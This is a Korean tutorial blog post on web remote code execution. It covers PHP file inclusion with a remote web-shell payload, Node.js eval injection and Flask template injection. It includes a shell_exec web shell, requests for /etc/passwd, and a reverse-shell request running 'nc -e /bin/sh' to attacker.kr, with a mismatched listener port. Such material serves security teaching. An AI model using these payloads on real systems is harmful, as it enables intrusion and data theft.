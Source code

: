```yaml
---
emoji: 📣
title: Web Application RCE Case
author: Zer0Luck
date: '2021-12-25'
categories: Web
tags: RCE tutorial
---
```


# QuickStart
## Web Application RCE Case

### PHP
- File Inclusion, File upload, ...

### NodeJS
- Code Injection, Unserialize, ...

### Flask
- Server Side Template Injection, ...

## RCE Case1 #PHP

### File Inclusion
- php `include` 키워드는 `text/code/markup` 형식의 파일을 읽어와 php 파일의 내용을 다른 PHP 파일에 삽입할 수 있다.
```php
<?php
    include $_GET[file];
?>
```
- 예시로 공격 대상 서버에 `include`가 가능한 경우 RCE가 가능한 페이로드를 업로드하여 호출함으로 써 공격이 가능해진다.
**request**
```php
# > https://victim.kr/index.php?file=https://attacker.kr/payload.txt&cmd=id
```

**payload.txt**
```php
<?php
    echo shell_exec($_GET[cmd]);
?>
```

**response**
```php
uid=20080 gid=1001 groups=1001
```
- 공격자의 `payload` 데이터를 include 하였기 때문에 원하는 방향으로 수행할 수 있는 구조가 생긴다.
### File Inclusion technique

#### 맛있는 `include` 할 대상 파일
- `/etc/passwd` : 리눅스 계정 목록 [Local File]
- `/proc/self/maps` : 프로그램 메모리 덩보 [Local File]
- `/var/www/html/[payload.*]` : 코드를 실행할 수 있는 php 코드 [Local File]
- `https://attacker.kr/payload.txt` : 코드를 실행할 수 있는 php 코드 [Remote File]

#### 시도 해 볼 만한 함수
- `echo "data";` : 문자 출력
- `phpinfo();` : php 정보 출력
- `system("id")` : system 명령어 수행
- `passthru("id")` : passthru 명령어 수행
- `file_put_contents("/tmp/test.txt", "data")` : 파일 쓰기(생성)
- `file_get_contents("/tmp/test.txt")` : 파일 읽기


## RCE Case2 #NodeJS

### NodeJS Code Injection
**request**
```javascript
//> http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
```

**attacker server**
```javascript
# nc -lvp 8888
```
- 대상 서버상 내부적으로 처리하는 구간에서 `경로`,`쿼리`등의 데이터가 내부 javascript로 해석되어 실행되는 구간이 존재하는 경우 위와 같은 공격을 이용하여 RCE이 수행이 가능

**victim.kr 내부 구현**
```javascript
...
eval(data_input); // data_input은 위의 request에서 전달받은 데이터
...
```
- 대상 서버 내부 구현은 다음과 같이 입력 된 데이터가 `eval` api를 통한 문자열이 javascript로 해석되어 실행되는 구간으로 동작하기 때문

#### NodeJS Code Injection technique

#### **fs class**
- 공격시 대상 서버의 파일을 읽는 경우 `require('fs')` 모듈을 활용하여 파일 시스템(파일 읽기, 쓰기, 삭제)을 제어할 수 있으며 다양한 방식으로 활용된다.

**readdir()**
- fs class의 `readdir()`, `readdirSync()` 메서드를 통해 대상 서버의 디렉터리 내용을 나열할 수 있다. 후자가 동기식 버전 말고는 동일하다. 
``` javascript
var fs = require('fs');
fs.readdir('.').toString('utf8');
fs.readdir('..').toString('utf8');
```

**readFile()**
- 공격자는 앞서 서버 디렉토리 구조를 파악한 후 `readFile()`, `readFileSync()` 메서드를 활용하여 파일의 내용을 읽을 수 있다.
``` javascript
var fs = require('fs');
fs.readFile('/etc/passwd').toString('utf8');
```

**Child Process**
- 공격자는 `child_process` 모듈을 사용해 Node.js 에서 작식 프로세스를 생성하여 자식 프로세스로 `spawn(), fork(), exec(), execFile()` 등의 메서드를 실행할 수 있다. 
- `spawn()` 함수는 Stream 데이터를 반환하고 `exec()` 함수는 전체 버퍼 출력을 반환한다. 

#### **Ncat**
- 공격자는 앞서 페이로드를 구성한후 자신의 서버로 대상 서버를 연결하기 위해 Revers Shell을 설정하기 위해 Ncat를 활용한다.
- 
``` javascript
// > http://victim.kr/api/v1/data/require("child_process").exec("nc -e /bin/sh attacker.kr 8080")
// < nc -lvp 8888
```

## RCE Case3 #Flask/Jinja2

### Flask Server Side Template Injection
- Server Side Template Injection을 서버에서 임의 코드를 실행 할 수 있는 사용자 입력 값에 Template keyword를 삽입해서 Tempalte Engine에서 해당 입력 값을 기반으로 데이터를 렌더링되어 실행된다.

**victim.kr 내부 서버 구현**
```python
def index():
    return render_template_string(
        '<h1>{{ request.args.get("input") }}</h1>'
    )
```

**request**
``` python
# http://victim.kr/?input={{4*4}}
```

**response**
``` python
# > <h1>16</h1>
```
- 대상 내부 서버에서는 input 쿼리 값으로 request get 요청을 통해 입력 받아 `render_template_string` 메서드를 활용해 rednering되어 출력된다. `{{4*4}}`을 입력하여 SSTI 수행 시 템플릿 엔지이 해당 식을 해석하여 `16`을 반환한다.

```toc
```
